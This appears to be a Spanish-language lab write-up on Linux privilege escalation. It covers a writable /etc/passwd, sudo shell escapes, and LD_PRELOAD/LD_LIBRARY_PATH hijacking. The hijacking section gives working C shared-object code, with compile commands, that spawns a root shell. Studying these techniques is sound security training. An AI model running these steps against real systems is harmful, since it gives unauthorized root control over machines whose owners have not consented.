 ### [](#header-3)Weak File Permissions - Writable /etc/passwd
Este caso consiste en generar una contrasena en el formato apropiado para el archivo /etc/password.
1. Generamos la contrasena nueva con
```s
openssl passwd newpasswordhere
```
2. Cambiamos la clave del usuario, por la que acabamos de generar, que esta representada por una x
3. Podremos cambiar de usuario y usar la nueva contrasena.

### [](#header-3)Sudo - Shell Escape Sequences 
Mediante los programas listados con el comando
```s
sudo -l
```
Podemos visitar la <a href="https://gtfobins.github.io/">pagina</a> y tratar de ganar una shell de root.

### [](#header-3)Sudo - Environment Variables
En esta seccion jugaremos con las variables de entorno de librerias y de aplicaciones binarias. Se explicara un ejemplo de cada uno.
Para la primera practica, necesitamos hacer un archivo llamado preload.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
Con el programa anterior, generaremos un objeto compartido con los comandos:

```s
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Ahora tomaremos uno de los programas que tenemos permitidos usar con sudo, en el siguiente comando:
```s
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
Y tendremos nuestra shell de root.

En este ejemplo, usaremos las librerias de apache2. Para listar las librerias que usa, usamos el comando:
```s
ldd /usr/sbin/apache2
```

El segundo programa se llamara library_path.c
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
Con el programa anterior, crearemos igualmente un objeto compartido de la manera siguiente:
```s
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```